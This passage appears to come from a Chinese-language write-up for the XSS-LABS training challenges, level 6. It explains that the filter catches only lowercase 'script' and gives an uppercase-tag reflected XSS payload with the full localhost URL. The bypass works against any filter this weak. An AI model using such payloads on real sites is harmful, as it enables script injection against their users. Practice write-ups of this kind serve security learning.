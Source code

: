 ![image-20220928171119642](XSS-LABS.assets/image-20220928171119642.png)

## [6]

- 只匹配了小写关键词'script'，会将r替换为_r，所以大写绕过。

```shell
# payload
"><SCRIPT>alert(`xss`)</SCRIPT>

# url
http://localhost:1996/level6.php?keyword="><SCRIPT>alert(`xss`)</SCRIPT>&submit=搜索
```

![image-20220928171648140](XSS-LABS.assets/image-20220928171648140.png)
